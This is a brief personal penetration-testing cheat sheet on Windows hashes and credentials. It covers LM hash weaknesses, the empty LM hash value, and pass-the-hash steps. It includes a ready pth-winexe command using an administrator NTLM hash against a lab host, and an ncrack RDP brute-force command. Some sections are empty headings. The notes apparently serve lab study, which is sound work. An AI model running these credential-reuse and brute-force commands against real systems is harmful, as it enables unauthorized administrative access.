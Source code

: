 # Hashes and Credentials

## LM hashes
- Password longer than 7 is split and each half hashed separately
- Passwords are converted into uppercase
- No salt
- Empty LM hash
```
AAD3B435B51404EE
AAD3B435B51404EEAAD3B435B51404EE
```
## NTLM hashes

## Dumping hashes
- Cannot copy SAM when sys is in use

## Pass the Hash
Auth using username and NTLM hash (since NTLM and LM hashes are not salted)

- Replace "no password" in dump wih empty LM hash
- Copy admins dumped hash (LM:NTML)
- export SMBHASH=LM:NTML
- pth-winexe -U administrator% //ip cmd

### pth-winexe
```
pth-winexe
-U jeeves/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
//10.10.10.63 cmd
```

## RDP
```
ncrack -v -f --user administrator -P password.txt rdp://ip,CL=1
```

## LSASS

## References
- Extracting User Password Data with Mimikatz DCSync: https://blog.stealthbits.com/extracting-user-password-data-with-mimikatz-dcsync/
- Pwning with Responder – A Pentester’s Guide: https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/
